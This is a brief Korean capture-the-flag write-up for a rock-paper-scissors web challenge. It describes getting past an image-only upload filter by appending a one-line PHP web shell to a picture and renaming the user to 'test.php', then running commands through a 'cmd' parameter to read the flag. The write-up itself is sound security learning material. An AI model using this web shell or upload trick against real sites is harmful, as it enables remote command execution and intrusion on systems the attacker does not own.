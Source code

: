 # GnomeArena: Rock Paper Scissors

![Alt text](001.png)

가위 바위 보 게임이 있다.

script 부분을 봣지만 여러번 승리한다고 바뀌는건 없는거 같다.

![Alt text](002.png)

settings 부분에는 이름을 바꾸는 기능과 프로필 사진을 바꾸는 기능이 존재한다.

그림파일을 업로드하는 기능에는 그림파일만 올라가게 되어있다.

그림파일 뒤에 '''<?php system($_GET['cmd']); ?>'''  를 붙여서 명령어를 실행할 수 있게만들어 업로드한다.

![Alt text](003.png)

그림파일 이름은 현재 나의 이름으로 avatars 폴더 밑에 업로드 된다. 때문에 이름을 test.php로 변경한뒤 그림파일을 업로드한다.

![Alt text](005.png)

![Alt text](004.png)

test.php로 이동하여 cmd 인자를 입력해준다. 현재 디렉토리에는 flag 같은 것이 안보인다. / 디렉토리를 살펴보니 flag 파일이 보인다.

cat 명령으로 flag 파일을 읽는다. 

![Alt text](000.png)
